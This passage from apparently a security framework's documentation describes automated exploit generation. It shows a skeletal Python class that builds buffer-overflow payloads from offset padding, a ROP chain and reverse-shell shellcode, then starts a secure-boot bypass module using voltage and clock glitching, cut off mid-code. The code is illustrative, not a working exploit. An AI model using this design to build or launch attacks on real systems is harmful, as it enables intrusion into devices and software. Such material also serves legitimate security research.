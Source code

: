 ## Exploit Generation

The framework's exploit generation engine automatically creates proof-of-concept exploits based on identified vulnerabilities:

### Buffer Overflow Exploits

```python
class BufferOverflowExploitGenerator:
    def __init__(self):
        self.rop_gadget_finder = ROPGadgetFinder()
        self.shellcode_generator = ShellcodeGenerator()
    
    def generate_exploit(self, vulnerability_info):
        """
        Generate buffer overflow exploit
        """
        # Calculate offset to return address
        offset = self.calculate_offset(vulnerability_info['crash_info'])
        
        # Find ROP gadgets for bypass protections
        rop_chain = self.rop_gadget_finder.build_rop_chain(
            vulnerability_info['binary_info']
        )
        
        # Generate appropriate shellcode
        shellcode = self.shellcode_generator.generate_reverse_shell(
            target_arch=vulnerability_info['architecture']
        )
        
        # Construct exploit payload
        exploit_payload = (
            b'A' * offset +  # Buffer overflow
            rop_chain +      # ROP chain for protection bypass
            shellcode        # Final payload
        )
        
        return {
            'payload': exploit_payload,
            'description': 'Buffer overflow leading to code execution',
            'usage_instructions': self.generate_usage_instructions(exploit_payload)
        }
```

## Advanced Features

### Hardware Fault Injection

The framework includes voltage and clock glitching capabilities for bypassing security mechanisms:

```python
class FaultInjectionModule:
    def __init__(self):
        self.voltage_glitcher = VoltageGlitcher()
        self.clock_glitcher = ClockGlitcher()
    
    def bypass_boot_protection(self, target_config):
        """
        Attempt to bypass secure boot using fault injection
        """
        glitch_parameters = {
            'voltage_range': (2.8, 3.6),
            'glitch_width': (10, 1000),  # microseconds
            'trigger_delay': (0, 10000)  # microseconds
```